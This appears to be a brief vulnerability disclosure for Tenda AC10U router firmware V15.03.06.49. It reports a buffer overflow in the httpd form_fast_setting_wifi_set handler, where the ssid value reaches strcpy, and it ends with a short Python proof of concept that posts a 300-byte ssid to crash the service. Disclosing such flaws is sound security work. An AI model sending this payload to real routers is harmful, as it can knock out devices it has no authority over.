 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](1.png)

get value from ssid and call strcpy ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/form_fast_setting_wifi_set"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'ssid': payload})
```
